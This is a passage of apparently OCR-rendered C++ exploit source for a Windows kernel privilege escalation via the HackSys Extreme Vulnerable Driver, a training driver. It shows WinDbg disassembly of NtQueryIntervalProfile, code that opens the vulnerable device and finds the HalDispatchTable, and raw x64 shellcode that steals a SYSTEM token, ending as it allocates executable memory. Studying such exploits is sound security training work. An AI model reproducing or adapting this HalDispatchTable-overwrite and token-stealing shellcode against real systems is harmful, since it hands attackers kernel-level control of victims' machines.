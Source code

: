 ```cpp
    0: kd> uf NtQueryIntervalProfile
    ntdll!NtQueryIntervalProfile:
    00000000`77b7aa80 4c8bd1          mov     r10,rcx
    00000000`77b7aa83 b81d010000      mov     eax,11Dh
    00000000`77b7aa88 0f05            syscall
    00000000`77b7aa8a c3              ret
    0: kd> uf nt!NtQueryIntervalProfile
    nt!NtQueryIntervalProfile:
    fffff800`041b7940 48895c2408      mov     qword ptr [rsp+8],rbx
    fffff800`041b7945 57              push    rdi
    fffff800`041b7946 4883ec20        sub     rsp,20h
    fffff800`041b794a 488bda          mov     rbx,rdx
    */

    HMODULE hNtdll = LoadLibraryA("ntdll");
    PNtQueryIntervalProfile NtQueryIntervalProfile = (PNtQueryIntervalProfile)GetProcAddress(hNtdll, "NtQueryIntervalProfile");

    PULONG null = 0;
    NtQueryIntervalProfile(2, &null);
}

int main()
{
    // open device 
    HANDLE dev = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", GENERIC_READ | GENERIC_WRITE, NULL, NULL, OPEN_EXISTING, NULL, NULL);

    if (dev == INVALID_HANDLE_VALUE)
    {
        std::cout << "[!] Open HackSysExtremeVulnerableDriver Failed" << std::endl;
        system("pause");

        return -1;
    }

    std::cout << "[*] Device Handle: 0x" << std::hex << dev << std::endl;

    SYSTEM_MODULE KBSM = GetKernelBaseSystemModule();

    ULONG64 HalDispatchTable = GetHalDispatchTableAddress(KBSM);

    CHAR shellcode[] =
    {	
        // push rax; push rbx; push rcx; push rdx; push rdi; push rsi; push r8; push r9; push r10; push r11; push r12; push r13; push r14; push r15
        "\x50\x53\x51\x52\x57\x56\x41\x50\x41\x51\x41\x52\x41\x53\x41\x54\x41\x55\x41\x56\x41\x57"
        
        // change token
        "\x48\x31\xc0\x65\x48\x8b\x80\x88\x01\x00\x00\x48\x8b\x40\x70\x48\x89\xc1\x49\x89\xcb\x49\x83\xe3\x07\xba\x04\x00\x00\x00\x48\x8b\x80\x88\x01\x00\x00\x48\x2d\x88\x01\x00\x00\x48\x39\x90\x80\x01\x00\x00\x75\xea\x48\x8b\x90\x08\x02\x00\x00\x48\x83\xe2\xf0\x4c\x09\xda\x48\x89\x91\x08\x02\x00\x00"
        
        // pop r15; pop r14; pop r13; pop r12; pop r11; pop r10; pop r9; pop r8; pop rsi; pop rdi; pop rdx; pop rcx; pop rbx; pop rax;
        "\x41\x5f\x41\x5e\x41\x5d\x41\x5c\x41\x5b\x41\x5a\x41\x59\x41\x58\x5e\x5f\x5a\x59\x5b\x58"

        "\xc3"								// ret: return to func KeQueryIntervalProfile 
    };

    LPVOID addr = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```